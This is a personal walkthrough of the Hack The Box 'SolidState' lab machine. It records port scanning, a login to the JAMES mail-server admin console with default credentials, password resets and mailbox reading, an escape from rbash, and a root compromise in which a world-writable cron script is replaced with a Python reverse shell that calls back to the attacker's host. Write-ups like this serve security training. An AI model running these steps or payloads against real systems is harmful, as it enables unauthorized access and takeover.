


---
tags:
  - restrictedshell
group: Linux
---


- Machine : https://app.hackthebox.com/machines/SolidState
- Reference : https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
- Solved : 2024.12.28. (Sat) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**: Identified key open ports (22, 25, 80, 110, 119, 4555) with JAMES Mail Server (`2.3.2`) and Apache HTTP Server.
    - **JAMES Admin Access**: Logged into the Remote Admin Tool (port `4555`) using default credentials (`root:root`), listed users, and reset their passwords.

2. **Exploitation**
    - **Email Enumeration**: Accessed `mindy`'s emails via POP3 and found SSH credentials.
    - **SSH Login**: Logged in as `mindy` but was restricted to an `rbash` shell.
    - **Restricted Shell Escape**: Bypassed `rbash` with `ssh -t "bash --noprofile"`.
    
3. **Privilege Escalation**
    - **Writable Script**: Found `/opt/tmp.py`, a root-executed script with writable permissions.
    - **Payload Injection**: Modified `tmp.py` to execute a reverse shell.
    - **Root Access**: Gained root shell upon cron execution of the modified script.

### Key Techniques:

- **Enumeration**: Identified vulnerable services and writable files.
- **Exploitation**: Used default credentials and email enumeration for initial access.
- **Privilege Escalation**: Leveraged a writable cron-executed script for root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.51
Performing quick port scan on 10.10.10.51...
Found open ports: 22,25,80,110,119,4555,19009
Performing detailed scan on 10.10.10.51...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 07:49 EST
Nmap scan report for 10.10.10.51
Host is up (0.13s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp    open   smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.4 [10.10.14.4])
80/tcp    open   http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp   open   pop3    JAMES pop3d 2.3.2
119/tcp   open   nntp    JAMES nntpd (posting ok)
4555/tcp  open   rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
19009/tcp closed unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=12/28%Time=676FF3F2%P=aarch64-unknown-linu
SF:x-gnu%r(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202
SF:\.3\.2\nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20i
SF:d:\nPassword:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 266.11 seconds
```

- ssh(22), smtp(25), pop3(110), nntp(119) services are open.
- http(80) is open and Apache seems to be running on it.
- There's another service running on port 4555 which is asking login credential.

### http(80)


The index page looks normal.


The contact form has some more information including email.

```bash
┌──(kali㉿kali)-[~/htb/XSStrike]
└─$ python xsstrike.py -u "http://10.10.10.51/index.html" --data "name=adsf&email=adsf%40adf.com&message=asdf" 

        XSStrike v3.1.5                                                      

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: name 
[-] No reflection found 
[!] Testing parameter: email 
[-] No reflection found 
[!] Testing parameter: message 
[-] No reflection found 
```

I checked if it has XSS, but it was not.

```markdown
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.51 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.51
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.51/images/]
/assets               (Status: 301) [Size: 311] [--> http://10.10.10.51/assets/]
```

Gobuster couldn't find any useful pages.

Let's move onto the next service.

### James Mail server (25,110,119,4555)

4 different ports have to do with James Mail Server based on the port scanning.
Let me google it to find if there's any vulnerabilities.



There are many different exploits found on version 2.3.2 which I found from the port scanning!
Before using these, let's just enumerate the services!

```bash
┌──(kali㉿kali)-[~/htb/exploits]
└─$ nc -nv 10.10.10.51 4555
(UNKNOWN) [10.10.10.51] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Among the available commands, I chose `listusers` first to see existing users.
List users:

```makefile
listusers 
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Then, I changed all non-root user's passwords.
Change all users' password:

```
setpassword james bokchee
Password for james reset
setpassword thomas bokchee
Password for thomas reset
setpassword john bokchee
Password for john reset
setpassword mindy bokchee
Password for mindy reset
setpassword mailadmin bokchee
Password for mailadmin reset
```

Then, let's connect to POP3 service to check all accounts.
I found stored mails from several users : `john`, `mindy`

Read `john`'s mail : 

```bash
┌──(kali㉿kali)-[~/htb/exploits]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS bokchee
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

It's talking about `mindy`'s account.
I think she is the recently hired employee.

Read `mindy`'s mail :

```bash
┌──(kali㉿kali)-[~/htb/exploits]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS bokchee
+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

First mail is simply a greeting message while the second contains critical information.
It has SSH credential : `mindy` : `P@55W0rd1!2@`

With this, I think I can open a shell through `ssh`.


# Shell as `mindy`

### ssh login

Given the `mindy`'s mail, let's try ssh login.

```vbnet
┌──(kali㉿kali)-[~]
└─$ ssh mindy@10.10.10.51
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ 
```

I got a shell!

However, it seems that I'm in a restricted shell.
Many commands return just an error (Command not existing).

```bash
mindy@solidstate:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
mindy@solidstate:~$ echo $SHELL
/bin/rbash
```

Escape using `/bin/bash` is not allowed, and now I'm in `rbash`.

Here I found a reference to escape from the restricted shell:
https://0xffsec.com/handbook/shells/restricted-shells/

I tried them all, and this one worked!



```bash
┌──(kali㉿kali)-[~]
└─$ ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export PS1="\u@\h:\W\$ "
mindy@solidstate:~$ echo $SHELL
/bin/rbash
mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
mindy@solidstate:~$ whoami
mindy
mindy@solidstate:~$ ls bin
cat  env  ls
```

The original restricted shell only has 3 commands available.


# Shell as `root`?

### Enumeration

Let's run `linpeas` script.

```bash
mindy@solidstate:~$ ./linpeas_linux_386

╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                        
Linux version 4.9.0-3-686-pae (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18) ) #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06)
Distributor ID: Debian
Description:    Debian GNU/Linux 9.0 (stretch)
Release:        9.0
Codename:       stretch


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                           
[+] [CVE-2017-16995] eBPF_verifier                                           

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,[ debian=7|8|9|10|11 ],fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: less probable
   Tags: ubuntu=(14.04|16.04){kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass


╔══════════╣ Users with console
james:x:1000:1000:james:/home/james/:/bin/bash                               
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
root:x:0:0:root:/root:/bin/bash


╔══════════╣ Analyzing Jenkins Files (limit 70)
                                                                             
-rw-r--r-- 1 root root 64804 Aug 22  2017 /opt/james-2.3.2/apps/james/SAR-INF/config.xml
<!-- It assumes you have a DNS server on localhost and assigns a root password of root. -->                                                               
            <!-- Change the default login/password. -->
            <account login="root" password="root"/>
         <password></password>
         <password>password</password>
         <password>blahblah</password>
         <password></password>
                  <password>secret</password>
                  <key-password>keysecret</key-password>


══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                          
strings Not Found                                                            
strace Not Found                                                             
-rwsr-xr-x 1 root root 39K May 17  2017 /bin/su                              
-rwsr-xr-x 1 root root 39K Mar 22  2017 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                   
-rwsr-xr-x 1 root root 30K Jun 23  2016 /bin/fusermount
-rwsr-xr-x 1 root root 67K Nov 10  2016 /bin/ping
-rwsr-xr-x 1 root root 158K Feb 26  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)                     
-rwsr-xr-x 1 root root 26K Mar 22  2017 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 35K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 22K May 24  2017 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034            
-rwsr-xr-x 1 root root 57K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)    
-rwsr-xr-x 1 root root 39K May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 48K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 77K May 17  2017 /usr/bin/gpasswd
-rwsr-xr-- 1 root dip 355K Nov 11  2016 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                                               
-rwsr-xr-x 1 root root 14K May 24  2017 /usr/lib/policykit-1/polkit-agent-helper-1                                                                        
-rwsr-xr-x 1 root root 514K Jun 17  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5.4K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 46K Apr  5  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                 
-rwsr-sr-x 1 root root 9.6K Jul  7  2017 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 14K Jan 14  2017 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper (Unknown SUID binary!)   


╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)                                                       
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                         
/dev/mqueue                                                                  
/dev/shm
/home/mindy
/opt/tmp.py
/run/lock
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/run/user/1001/systemd/transient
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/var/tmp


╔══════════╣ Unexpected in /opt (usually empty)
total 16                                                                     
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Many suspicious vectors are found.

### Modify globally-writable file `/opt/tmp.py`

Among them, let me investigate `/opt/tmp.py` first.
It's not usual to see writable file in `/opt` directory.

```bash
mindy@solidstate:opt$ ls -al
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py


mindy@solidstate:opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Since it's writable, I can edit this file to run `/bin/bash` shell as root user?

Before that, I have to check if that code is run by root.
I uploaded `pspy32` and checked.

```bash
mindy@solidstate:tmp$ ./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░   
                               
2024/12/28 15:23:55 CMD: UID=0     PID=22891  | /sbin/modprobe -q -- 0.0.0.0 
2024/12/28 15:24:01 CMD: UID=0     PID=22892  | /usr/sbin/CRON -f 
2024/12/28 15:24:01 CMD: UID=0     PID=22893  | /usr/sbin/CRON -f 
2024/12/28 15:24:01 CMD: UID=0     PID=22894  | /bin/sh -c python /opt/tmp.py                                                                             
2024/12/28 15:24:01 CMD: UID=0     PID=22895  | sh -c /bin/bash 
2024/12/28 15:24:01 CMD: UID=0     PID=22896  | /bin/bash 
```

It is! It runs `/opt/tmp.py` in every 3 minute!
Let's edit the file to spawn a reverse shell.

```bash
mindy@solidstate:opt$ cat tmp.py
#!/usr/bin/env python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Then, let's open a listener and wait for connection...

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000          
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.51] 55918
# id
id
uid=0(root) gid=0(root) groups=0(root)

```

I got root!